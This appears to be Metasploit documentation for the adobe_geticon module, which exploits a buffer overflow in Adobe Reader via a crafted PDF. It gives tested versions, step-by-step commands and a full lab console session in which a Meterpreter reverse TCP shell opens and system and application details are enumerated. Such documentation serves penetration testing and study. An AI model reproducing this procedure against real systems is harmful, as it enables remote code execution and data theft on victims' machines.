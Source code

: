 ## Vulnerable Application

This module exploits a buffer overflow in Adobe Reader and Adobe Acrobat. Affected versions include < 7.1.1, < 8.1.3, and < 9.1.
By creating a specially crafted pdf that a contains malformed `Collab.getIcon()` call, an attacker may be able to execute arbitrary code.

Link to vulnerable software [OldVersion](http://www.oldversion.com/windows/download/acrobat-reader-8-0-0)

### Test results (on Windows XP SP3)

  * reader 7.0.5 - no trigger
  * reader 7.0.8 - no trigger
  * reader 7.0.9 - no trigger
  * reader 7.1.0 - no trigger
  * reader 7.1.1 - reported not vulnerable
  * reader 8.0.0 - works
  * reader 8.1.2 - works
  * reader 8.1.3 - reported not vulnerable
  * reader 9.0.0 - works
  * reader 9.1.0 - reported not vulnerable

## Options

  **FILENAME**

  The file name

## Verification Steps

   1. Install application on the target machine
   2. Start msfconsole
   3. Do: ```use exploit/windows/fileformat/adobe_geticon```
   4. Do: ```set payload [windows/meterpreter/reverse_tcp]```
   5. Do: ```set LHOST [IP]```
   6. Do: ```exploit```
   7. Do: ```use exploit/multi/handler```
   8. Do: ```set LHOST [IP]```
   9. Do: ```exploit```
   10. Do: Open PDF on target machine with vulnerable software

## Scenarios

### Adobe Reader 8.0.0 on Windows XP (5.1 Build 2600, Service Pack 3)

  ```
  msf > use exploit/windows/fileformat/adobe_geticon
  msf exploit(windows/fileformat/adobe_geticon) > set FILENAME icon.pdf
    FILENAME => icon.pdf
  msf exploit(windows/fileformat/adobe_geticon) > exploit

    [*] Creating 'icon.pdf' file...
    [+] icon.pdf stored at /root/.msf4/local/icon.pdf
  msf exploit(windows/fileformat/adobe_geticon) > cp /root/.msf4/local/icon.pdf /var/www/html/icon.pdf
    [*] exec: cp /root/.msf4/local/icon.pdf /var/www/html/icon.pdf

  msf payload(windows/meterpreter/reverse_tcp) > use exploit/multi/handler
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(multi/handler) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] Sending stage (180291 bytes) to 192.168.1.5
    [*] Meterpreter session 3 opened (192.168.1.3:4444 -> 192.168.1.5:1160) at 2019-12-06 14:40:10 -0700

  meterpreter > sysinfo
    Computer        : COMPUTER_1
    OS              : Windows XP (5.1 Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: COMPUTER_1\USER
  meterpreter > run post/windows/gather/enum_applications

    [*] Enumerating applications installed on COMPUTER_1

    Installed Applications
    ======================

     Name            Version
     ----            -------
     Adobe Reader 8  8.0.0


    [+] Results stored in: /root/.msf4/loot/20191206144654_default_192.168.1.5_host.application_162364.txt
  ```

